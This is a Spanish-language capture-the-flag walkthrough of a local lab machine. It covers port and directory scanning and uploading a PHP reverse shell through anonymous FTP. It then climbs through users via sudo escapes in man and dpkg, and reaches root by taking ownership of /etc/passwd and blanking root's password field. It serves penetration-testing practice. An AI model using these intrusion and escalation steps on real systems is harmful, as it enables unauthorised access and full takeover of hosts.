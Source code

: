 
Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. Descubrimos que los puertos que se encuentran activos son el 21 (FTP) y el 80 (HTTP).

```
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```

- `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/fbdcf75b-e25d-4d92-8797-3e558b2a92e6)

A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```
nmap -p 21,80 -sCV 172.17.0.2 -oG targeted
```

![image](https://github.com/user-attachments/assets/35d4dab8-0433-48d9-9943-52e4e2a36bfd)

Exploración Web

Al acceder a la página web, observamos lo siguiente:

![image](https://github.com/user-attachments/assets/ede1f8d5-c313-4e69-94ee-aee4e813aa5e)

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.

```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```

- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/7684d11b-a469-40f3-8254-b0d964ec0112)

Vemos que hay un directorio upload pero no hay nada dentro.

![image](https://github.com/user-attachments/assets/d2061512-4cf0-4b1a-90a6-0abaad99a259)

## FTP

Procedemos a explorar el servicio FTP, ya que hemos identificado anteriormente que el usuario `anonymous` está habilitado y que tenemos permisos de escritura en el directorio `upload`.

**Nota:** Los usuarios `anonymous` no suelen tener contraseñas o son opcionales en muchos servidores FTP.

A continuación, intentamos conectarnos al servidor FTP utilizando el siguiente comando:

```
ftp 172.17.0.2
```

Al intentar acceder al servidor FTP con el usuario `anonymous` y sin contraseña, observamos que podemos entrar perfectamente.

![image](https://github.com/user-attachments/assets/ea8254c0-879e-4ece-b542-3f19975c77a5)

Intrusión en la Máquina

Generamos la reverseshell utilizando **Pentest Monkey**, una herramienta popular para crear shells PHP que nos permiten obtener acceso remoto al servidor. La ruta de la reverseshell es la siguiente:

[Reverseshell de Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

Pasos para Cargar la Reverseshell

1. **Preparar la Reverseshell**: Creamos un archivo de reverseshell en nuestro sistema local utilizando el código disponible en la ruta mencionada anteriormente.
2. **Subir el Archivo**: Utilizamos el comando de FTP para subir el archivo al directorio `upload`.
3. **Ejecutar la Reverseshell**: Una vez que el archivo esté en el servidor, lo ejecutaremos para establecer la conexión.

![image](https://github.com/user-attachments/assets/c6b9c6c5-e334-466c-ac7c-931e21464118)

Nos ponemos a escuchar por netcat en mi caso por el 4444

```
nc -lvnp 4444
```

Luego, accedemos a la ruta de la página web donde hemos cargado la reverseshell:

![image](https://github.com/user-attachments/assets/efce64bc-e77c-42cb-8b26-c651f630a409)

Y ya tendriamos acceso a la maquina.

![image](https://github.com/user-attachments/assets/bbc7b73c-09e9-4095-a526-e827fdead208)

TTY ReverseShell

### Iniciar una sesión de shell interactiva

En nuestra shell básica, ejecutamos el siguiente comando para forzar la creación de una sesión de bash interactiva:

```
script /dev/null -c bash
```

### Suspender la shell

Una vez que el comando anterior está en ejecución, utilizamos

```
Control+Z
```

para suspender temporalmente nuestra shell.

### Preparar nuestro terminal local:

Antes de volver a nuestra shell, configuramos nuestro terminal local:

```
stty raw -echo; fg
```

### Resetear la configuración del terminal

Ahora que tenemos el control de la shell, la reseteamos para asegurar que se comporta correctamente:

```
reset
```

### Configura el tipo de terminal:

```
xterm
export TERM=xterm
export SHELL=bash
```

## Usuario pingu

Ya estamos dentro de la máquina. Si ejecutamos el comando `sudo -l`, vemos que podemos ejecutar `man` como `Pingu`. Para ello, debemos hacer lo siguiente:

![Interfaz de la herramienta](https://github.com/user-attachments/assets/cef8486b-9c3c-4905-90b8-1dc9d1c54986)

Esta herramienta tiene una sección al final que muestra `MORE`. Si en lugar de desplazarnos hacia abajo, escribimos `!/bin/bash`, se generará una shell con ese usuario.

```
sudo -u pingu man man
```

![image](https://github.com/user-attachments/assets/7300b460-b586-4311-b862-5bd5df506bd4)

Si ahora ponemos `!/bin/bash`:

![image](https://github.com/user-attachments/assets/eb9e8678-2261-4e21-96bc-9a49f19abafc)

Vemos que hemos subido de usuario y ya estamos con el usuario `pingu`.

![Cambio de usuario](https://github.com/user-attachments/assets/0c3da884-f0fb-45df-9692-59312d0752ab)

## Usuario gladys

Vamos a volver a ejecutar el comando `sudo -l`.

![Comando sudo](https://github.com/user-attachments/assets/0cedf58f-0919-4d19-a6eb-c37df62b1d4b)

Observamos que podemos ejecutar `nmap` y `dpkg` como `gladys`. En mi caso, utilizaré `dpkg` y aplicaré el mismo método que antes con `man`. En mi caso, utilizaré `dpkg` y aplicaré el mismo método que antes con `man`.

```
sudo -u gladys /usr/bin/dpkg -l
```

Si ahora ponemos `!/bin/bash`:

![image](https://github.com/user-attachments/assets/7f86e264-8d5c-4fb9-8302-0177b78e7dbf)

Vemos que hemos subido de usuario y ya estamos con el usuario `gladys`.

![image](https://github.com/user-attachments/assets/0e482934-f8cd-4cd1-bede-abf6bd888fa6)

## Usuario root

Vamos a volver a ejecutar `sudo -l`.

![image](https://github.com/user-attachments/assets/fb5bbc2b-bd10-4091-bb4c-a9b168f0d487)

Observamos que podemos ejecutar `chown` como `root`. Para ello, procedemos de la siguiente manera:

Primero cambiamos los permisos de `/etc/passwd` para que nuestro usuario tenga permisos:

```
LFILE=/etc/passwd
```


```
sudo /usr/bin/chown gladys:gladys $LFILE
```



```
cat /etc/passwd
```


se copia lo guardado en el directorio passwd y se modifica donde esta root se quita el caracter x se guarda en el portapapeles



y usamos el comando  `echo 'se pega lo que esta en portapapeles'> /etc/passwd`




Ahora hacemos un `su root` y accederemos al usuario _root_ sin proporcionar contraseña

![image](https://github.com/user-attachments/assets/45c469ca-e1f3-4c7a-8025-920b591e5324)z